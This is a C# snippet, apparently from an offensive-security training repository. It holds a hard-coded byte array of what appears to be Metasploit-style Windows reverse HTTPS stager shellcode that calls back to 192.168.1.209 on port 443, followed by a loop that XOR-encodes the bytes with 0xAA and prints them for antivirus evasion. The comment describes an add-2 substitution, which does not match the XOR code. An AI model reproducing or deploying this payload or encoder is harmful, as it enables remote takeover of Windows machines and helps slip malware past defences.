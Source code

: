```csharp
            byte[] buf = new byte[676] { 0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xcc, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x4d, 0x31, 0xc9, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x66, 0x81, 0x78, 0x18, 0x0b, 0x02, 0x0f, 0x85, 0x72, 0x00, 0x00, 0x00, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x8b, 0x48, 0x18, 0x50, 0x44, 0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x4d, 0x31, 0xc9, 0x41, 0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x48, 0x31, 0xc0, 0x41, 0xc1, 0xc9, 0x0d, 0xac, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x41, 0x58, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x4b, 0xff, 0xff, 0xff, 0x5d, 0x48, 0x31, 0xdb, 0x53, 0x49, 0xbe, 0x77, 0x69, 0x6e, 0x69, 0x6e, 0x65, 0x74, 0x00, 0x41, 0x56, 0x48, 0x89, 0xe1, 0x49, 0xc7, 0xc2, 0x4c, 0x77, 0x26, 0x07, 0xff, 0xd5, 0x53, 0x53, 0x48, 0x89, 0xe1, 0x53, 0x5a, 0x4d, 0x31, 0xc0, 0x4d, 0x31, 0xc9, 0x53, 0x53, 0x49, 0xba, 0x3a, 0x56, 0x79, 0xa7, 0x00, 0x00, 0x00, 0x00, 0xff, 0xd5, 0xe8, 0x0e, 0x00, 0x00, 0x00, 0x31, 0x39, 0x32, 0x2e, 0x31, 0x36, 0x38, 0x2e, 0x31, 0x2e, 0x32, 0x30, 0x39, 0x00, 0x5a, 0x48, 0x89, 0xc1, 0x49, 0xc7, 0xc0, 0xbb, 0x01, 0x00, 0x00, 0x4d, 0x31, 0xc9, 0x53, 0x53, 0x6a, 0x03, 0x53, 0x49, 0xba, 0x57, 0x89, 0x9f, 0xc6, 0x00, 0x00, 0x00, 0x00, 0xff, 0xd5, 0xe8, 0x7a, 0x00, 0x00, 0x00, 0x2f, 0x53, 0x57, 0x51, 0x75, 0x63, 0x71, 0x59, 0x35, 0x62, 0x30, 0x6f, 0x6d, 0x53, 0x79, 0x64, 0x4a, 0x51, 0x31, 0x41, 0x70, 0x64, 0x67, 0x47, 0x53, 0x77, 0x58, 0x69, 0x41, 0x62, 0x50, 0x50, 0x6a, 0x33, 0x48, 0x32, 0x32, 0x37, 0x48, 0x68, 0x49, 0x57, 0x41, 0x5a, 0x55, 0x57, 0x66, 0x69, 0x6f, 0x42, 0x36, 0x46, 0x74, 0x79, 0x47, 0x75, 0x4b, 0x2d, 0x51, 0x6e, 0x58, 0x4e, 0x44, 0x44, 0x69, 0x57, 0x79, 0x35, 0x61, 0x38, 0x76, 0x52, 0x4f, 0x48, 0x74, 0x57, 0x45, 0x64, 0x62, 0x58, 0x5f, 0x77, 0x45, 0x63, 0x54, 0x50, 0x43, 0x4d, 0x53, 0x59, 0x69, 0x30, 0x46, 0x62, 0x58, 0x47, 0x53, 0x50, 0x72, 0x65, 0x6a, 0x50, 0x4b, 0x52, 0x35, 0x75, 0x4e, 0x5f, 0x42, 0x57, 0x51, 0x59, 0x32, 0x76, 0x6f, 0x7a, 0x32, 0x54, 0x57, 0x4b, 0x78, 0x00, 0x48, 0x89, 0xc1, 0x53, 0x5a, 0x41, 0x58, 0x4d, 0x31, 0xc9, 0x53, 0x48, 0xb8, 0x00, 0x32, 0xa8, 0x84, 0x00, 0x00, 0x00, 0x00, 0x50, 0x53, 0x53, 0x49, 0xc7, 0xc2, 0xeb, 0x55, 0x2e, 0x3b, 0xff, 0xd5, 0x48, 0x89, 0xc6, 0x6a, 0x0a, 0x5f, 0x48, 0x89, 0xf1, 0x6a, 0x1f, 0x5a, 0x52, 0x68, 0x80, 0x33, 0x00, 0x00, 0x49, 0x89, 0xe0, 0x6a, 0x04, 0x41, 0x59, 0x49, 0xba, 0x75, 0x46, 0x9e, 0x86, 0x00, 0x00, 0x00, 0x00, 0xff, 0xd5, 0x4d, 0x31, 0xc0, 0x53, 0x5a, 0x48, 0x89, 0xf1, 0x4d, 0x31, 0xc9, 0x4d, 0x31, 0xc9, 0x53, 0x53, 0x49, 0xc7, 0xc2, 0x2d, 0x06, 0x18, 0x7b, 0xff, 0xd5, 0x85, 0xc0, 0x75, 0x1f, 0x48, 0xc7, 0xc1, 0x88, 0x13, 0x00, 0x00, 0x49, 0xba, 0x44, 0xf0, 0x35, 0xe0, 0x00, 0x00, 0x00, 0x00, 0xff, 0xd5, 0x48, 0xff, 0xcf, 0x74, 0x02, 0xeb, 0xaa, 0xe8, 0x55, 0x00, 0x00, 0x00, 0x53, 0x59, 0x6a, 0x40, 0x5a, 0x49, 0x89, 0xd1, 0xc1, 0xe2, 0x10, 0x49, 0xc7, 0xc0, 0x00, 0x10, 0x00, 0x00, 0x49, 0xba, 0x58, 0xa4, 0x53, 0xe5, 0x00, 0x00, 0x00, 0x00, 0xff, 0xd5, 0x48, 0x93, 0x53, 0x53, 0x48, 0x89, 0xe7, 0x48, 0x89, 0xf1, 0x48, 0x89, 0xda, 0x49, 0xc7, 0xc0, 0x00, 0x20, 0x00, 0x00, 0x49, 0x89, 0xf9, 0x49, 0xba, 0x12, 0x96, 0x89, 0xe2, 0x00, 0x00, 0x00, 0x00, 0xff, 0xd5, 0x48, 0x83, 0xc4, 0x20, 0x85, 0xc0, 0x74, 0xb2, 0x66, 0x8b, 0x07, 0x48, 0x01, 0xc3, 0x85, 0xc0, 0x75, 0xd2, 0x58, 0xc3, 0x58, 0x6a, 0x00, 0x59, 0xbb, 0xe0, 0x1d, 0x2a, 0x0a, 0x41, 0x89, 0xda, 0xff, 0xd5 };
            //substitution key of 2, iterated through each byte value in the shellcode, and simply added 2 to its value. We performed a bitwise AND operation with 0xFF to keep the modified value within the 0-255 range (single byte) in case the increased byte value exceeds 0xFF.
            byte[] encoded = new byte[buf.Length];
            for (int i = 0; i < buf.Length; i++)
            {
                encoded[i] = (byte)(((uint)buf[i] ^ 0xAA) & 0xFF);
            }
            //For us to be able to use the encrypted shellcode, we must print it to the console, which we can do by converting the byte array into a string with the StringBuilder class and its associated AppendFormat method. To obtain a string that has the same format as that generated by msfvenom, we'll use a format string
            StringBuilder hex = new StringBuilder(encoded.Length * 20);
            foreach (byte b in encoded)
            {
                hex.AppendFormat("0x{0:x2}, ", b);
            }
            Console.WriteLine("The XOR payload is: " + hex.ToString());
        }
    }
} 
```